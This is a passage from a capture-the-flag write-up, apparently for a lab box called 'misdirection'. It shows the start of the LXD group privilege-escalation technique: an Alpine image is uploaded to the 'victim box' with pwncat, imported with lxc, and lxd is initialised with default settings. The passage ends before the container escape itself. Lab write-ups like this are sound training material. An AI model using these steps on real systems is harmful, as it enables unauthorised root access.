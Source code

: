 ```bash
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
ERROR: checksum is missing for alpine-devel@lists.alpinelinux.org-6165ee59.rsa.pub
Failed to download a valid static apk
```

After that you should have a image file

Next, upload the file to the victim box. I use pwncat for that

<br>

Next import the image and use any alias you want, after importing run image list to do a sanity check
```bash
(remote) brexit@misdirection:/tmp$ lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias test
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
(remote) brexit@misdirection:/tmp$ lxc image list
+-------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+-------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| test  | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Dec 16, 2021 at 6:35am (UTC) |
+-------+--------------+--------+-------------------------------+--------+--------+------------------------------+
```


To insure that lxd is running i run `lxd init` and just set everything to default

```bash
(remote) brexit@misdirection:/tmp$ lxd init

Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 

(remote) brexit@misdirection:/tmp$ 
```
